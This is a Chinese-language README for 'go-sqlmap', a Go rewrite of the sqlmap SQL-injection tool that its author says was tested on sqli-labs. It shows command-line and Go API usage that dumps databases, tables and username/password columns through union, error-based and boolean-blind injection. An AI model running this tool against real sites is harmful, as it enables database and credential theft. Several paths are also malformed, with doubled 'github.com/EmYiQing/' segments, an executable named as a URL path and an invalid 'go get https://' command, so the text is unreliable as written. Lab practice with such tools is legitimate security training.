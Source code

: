 # go-sqlmap

## 介绍

- sqlmap：渗透测试界的神器，这是一个简单的sqlmap
- 使用Golang重写的原因：高效、生成可执行文件直接运行、无需搭建环境等
- 测试通过sqli-lab前八关，传入一个有注入的url即可直接脱库
- 目前可以做到UnionSelect回显注入、Updatexml和Polygon的报错注入、布尔盲注

## 使用说明

- 使用`-u http://xxx/index.php?id=1`进行注入（默认会探测版本和所有数据库名）
- 使用`-D security`指定具体的数据库进行注入获得所有表（比如security数据库）
- 使用`-D security -T users`指定数据库和表名获得所有字段名（比如security数据库的users表）
- 使用`-D security -T users -C id,username,password`获得users表这三个字段的所有数据
- 使用`--technique U`指定使用Union注入（适用于sqli-lab前4关）
- 使用`--technique E`指定使用报错注入（使用于sqli-lab第5-6关）
- 使用`--technique B`指定使用布尔盲注（使用于sqli-lab第8关）
- 使用`--beta`参数可以激活Polygon报错函数（默认使用Updatexml因为更稳定）

## 图片

- 演示

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/demo.gif)

- Union注入

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/02.png)

- 报错注入

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/01.png)

- 布尔盲注

![](https://raw.githubusercontent.com/EmYiQing/github.com/EmYiQing/go-sqlmap/master/img/03.png)

## 快速开始

[下载地址](https://github.com/EmYiQing/github.com/EmYiQing/go-sqlmap/releases)

```shell
github.com/EmYiQing/go-sqlmap.exe -u http://sqlilab-ip/Less-1/?id=1 -D security -T users -C id,username,password --technique U
```

## 使用API

```shell
go get https://github.com/EmYiQing/go-sqlmap
```

```go
package main

import (
	sqlmap "github.com/EmYiQing/go-sqlmap/api"
	"github.com/EmYiQing/go-sqlmap/start"
)

func main() {
	opts := start.Input{
		Beta:      false,
		Url:       "http://192.168.222.129:81/Less-1/?id=1",
		Database:  "security",
		Table:     "users",
		Columns:   []string{"id", "username", "password"},
		Technique: []string{"U"},
	}
	instance := sqlmap.NewScanner(opts)
	instance.Run()
	instance.Stop()
}
```


